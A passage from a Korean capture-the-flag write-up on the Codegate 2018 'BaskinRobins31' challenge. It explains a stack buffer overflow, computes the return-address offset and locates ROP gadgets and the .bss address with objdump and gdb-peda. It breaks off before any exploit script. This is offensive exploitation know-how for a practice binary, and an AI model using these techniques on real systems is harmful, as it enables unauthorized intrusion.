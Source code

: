 ```c
    puts("Don't break the rules...:( ");
    result = 0LL;
  }
  return result;
}
```
<strong>your_turn 함수를 보면 read 함수를 이용해서 s 값을 입력 받고, write 함수를 이용해서 출력해주는 것을 볼 수 있습니다. 하지만 s는 memset 함수를 이용해서 150 사이즈만큼 초기화 시켜주는데 read 함수에서는 400만큼 입력을 받고 있어 BOF 취약점이 발생합니다. RET까지 덮을려면 s[176] + sfp[8]만큼 덮어주면 됩니다. 이제 가젯들을 구해보겠습니다.</strong><br>

```
pocas@pocas-VirtualBox:~/pwn/codegate/2018/BaskinRobins31$ objdump -d BaskinRobins31 | grep -B4 "ret"
(생략)
--
  400877:	48 89 e5             	mov    %rsp,%rbp
  40087a:	5f                   	pop    %rdi
  40087b:	5e                   	pop    %rsi
  40087c:	5a                   	pop    %rdx
  40087d:	c3                   	retq   
  40087e:	90                   	nop
  40087f:	5d                   	pop    %rbp
  400880:	c3                   	retq   
--
(생략)
```
<strong>objdump를 이용해서 가젯을 찾아보니 pop pop pop ret 가젯을 있는 것을 확인할 수 있습니다. 그리고 system 함수에서 사용할 pop ret 가젯도 그냥 pppr 가젯에서 2를 더한 것을 사용하려 했는데 이를 이용하니 잘 되지 않았습니다.</strong><br>

```
gdb-peda$ ropsearch "pop rdi"
Searching for ROP gadget: 'pop rdi' in: binary ranges
0x00400bc3 : (b'5fc3')	pop rdi; ret
0x0040087a : (b'5f5e5ac3')	pop rdi; pop rsi; pop rdx; ret
gdb-peda$ 
```
<strong>그래서 ropsearch 명령어를 이용해서 pop rdi; ret 가젯을 찾아서 이를 이용했습니다.</strong><br>

```
pocas@pocas-VirtualBox:~/pwn/codegate/2018/BaskinRobins31$ objdump -h BaskinRobins31 

BaskinRobins31:     file format elf64-x86-64

Sections:
Idx Name          Size      VMA               LMA               File off  Algn
(생략)
 25 .bss          00000020  0000000000602090  0000000000602090  00002088  2**4
                  ALLOC
(생략)
```
<strong>마지막으로 objdump를 이용해서 bss를 구했습니다. 나머지 got/plt/offset은 pwntools를 이용해서 구할 수 있습니다.</strong><br>

- 시나리오<br>
